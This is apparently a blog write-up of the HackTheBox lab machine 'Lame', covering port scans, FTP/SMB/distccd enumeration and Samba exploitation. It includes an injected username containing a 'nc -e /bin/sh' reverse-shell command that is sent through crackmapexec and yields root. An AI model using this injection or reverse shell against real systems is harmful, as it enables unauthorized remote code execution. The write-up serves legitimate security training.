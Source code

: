 ```yaml
---
title: HTB | Lame
author: Zeropio
date: 2022-12-23
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/lame
---
```


![HTB Img](/assets/img/hackthebox/card/Lame.png)

# Fingerprint

## Scan
With the scan we can get the following open ports:
```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### FTP
A critical [CVE](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) associated with this version can be found. Also, the **anonymous** login is enable:
```console
$ ftp anonymous@10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Everything can be download with the following command:
```bash
wget -m --no-passive ftp://anonymous@10.10.10.3
```

The FTP server seems to be empty.


### SSH
This version of SSH is vulnerable to an enumeration of user:password. But the server only allow RSA key login.

### SMB
A severe [CVE](https://www.cvedetails.com/cve/CVE-2012-1182/) is found for this one. Searching for it doesn't give any success. We downloaded the [nse file](https://svn.nmap.org/nmap/scripts/samba-vuln-cve-2012-1182.nse) and tried it:
```bash
nmap -p445 --script samba-vuln-cve-2012-1182.nse -Pn 10.10.10.3
nmap -p139 --script samba-vuln-cve-2012-1182.nse -Pn 10.10.10.3
```

But the allowed folders can be enumerated:
```console
$ smbclient -N -L \\\\10.10.10.3\\  
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
        ```

### distccd
On the other hand, searching for this vulnerability came to many payloads. Running the following [nse](https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse) against the target show it is vulnerable:
```console
$ nmap -p3632 --script distcc-cve2004-2687.nse -Pn 10.10.10.3

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687
```


 
---

# Footprint

## Initial Access
The SMB server can be access without credentials:
```bash
smbclient -N \\\\10.10.10.3\\tmp
```

We know that is a vulnerable version, for example this [CVE](https://nvd.nist.gov/vuln/detail/CVE-2007-2447). We found a exploit for metasploit, where refers to a username injection like:
```
username = "/=`nohup " + payload.encoded + "`"
```

We can try this by ourselves.

## Privilege Escalation
With CrackMapExec we can send logins attemps. Openning a netcat listener and sending the following command:
```bash
crackmapexec smb 10.10.10.3 -u './=`nohup nc -e /bin/sh 10.10.14.3 80`' -p ''
```

Will give us the root reverse shell:
```console
$ sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.3] 40648
whoami
root
```
